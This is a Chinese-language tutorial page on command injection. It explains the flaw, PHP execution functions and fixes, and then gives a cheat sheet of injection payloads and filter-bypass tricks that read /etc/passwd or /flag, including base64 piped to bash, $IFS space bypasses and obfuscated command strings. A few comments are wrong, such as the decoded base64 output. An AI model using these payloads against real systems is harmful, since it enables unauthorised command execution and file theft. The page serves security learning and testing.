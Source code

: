 ```yaml
---
author: YOUZAI
title: 命令执行漏洞
date: 2023/04/25
categories:
 - 常见漏洞
tags:
 - WEB安全
---
```


## 漏洞原理

最早称为命令注入攻击（Command Injection），是指由于 web 应用程序对用户提交的数据过滤不严格，导致黑客可以通过构造特殊命令字符串的方式，将数据提交至 Web 应用程序中，并利用该方式执行外部程序或系统命令实施攻击非法获取数据或网络资源等。

### PHP命令执行函数

* `system` => 用来执行一个外部的应用程序并将相应的执行结果输出。
* `passthru` => 函数可以用来执行一个 UNIX 系统命令并显示原始的输出。
* `exec` => 用来执行一个外部的应用程序。
* `eval` => 函数会将参数字符串作为 **PHP 程序代码来执行**，将 php 代码保存成字符串的形式，然后传递给 eval 函数执行。

### PHP代码执行函数

|函数名|
|:-|
|`eval()`|
|`assert()`|
|`preg_replace()`|
|`create_function()`|
|`call_user_func()`|
|`call_user_func_array()`|

## 漏洞危害

* 执行恶意命令，危害服务器。
* 可能使服务器被恶意攻击者控制。

## 修复建议

* 严格过滤用户输入的数据，禁止执行系统命令。
* 使用动态函数之前，确保使用的函数是指定函数。
* 在执行命令函数，对参数进行过滤，并对敏感字符进行转义。
* 使用函数替换命令执行，并且参数值尽量使用引号包括。

## 测试方法

使用 `&` `&&` `|` `||`

```shell
ping www.baidu.com & cat /etc/passwd # &：命令后台执行。
ping www.baidu.com && cat /etc/passwd # &&：第一条命令执行成功后，才会执行后一条命令。
ping www.baidu.com | cat /etc/passwd # |：第一条命令的输出作为后一条命令的输入。
ping www.baidu.com || cat /etc/passwd # ||：第一条命令执行失败后，才会执行后一条命令。
```

* 使用`;`

```shell
ping www.baidu.com;cat /etc/passwd
```

* 使用`{}`

```shell
{cat,/etc/passwd}
```

* 使用命令拼接

```shell
a=c;b=at;c=/etc;d=/passwd;$a$b $c$d$e
```

* 使用`<>`

```shell
cat<>/etc/passwd
```

* 使用`\`

```shell
ca\t /et\c/passwd
```

* 使用特殊变量

```shell
ca$@t /et$@c/passwd
ca$1t /et$2c/passwd
```

* 使用模式匹配

```shell
cat t[a-z]st
cat t{a,b,c,d,e,f}st
```

* 使用单双引号

```shell
c""at fl''ag.tx""t
```

* 使用反引号

```shell
cat `ls` # 单引号包裹的是命令
```

* 使用编码

```shell
echo "Y2F0IC9mbGFn"|base64 -d|bash ==> cat /etc/passwd
echo Y2F0IC9mbGFn|base64 -d|sh ==> cat /etc/passwd
```

* 使用 *oct* 字节

```shell
$(printf "\154\163") ==> ls
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==> cat /flag
{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|\$0 ==> cat /flag
```

* 使用通配符`? *`

```shell
cat /flag => cat /?lag => /???/?at /?lag => /???/?[a][t] /?"?"?"?
```

* 使用`more` `less`

```sh
more /etc/passwd
less /etc/passwd
```

* 空格绕过

```shell
cat</flag
cat<>/flag
cat${IFS}/flag
cat$IFS$9/flag
```

* 使用 `\`，主要绕过命令输入的长度限制

```shell
echo "cat\\" >> cmd
sh cmd
```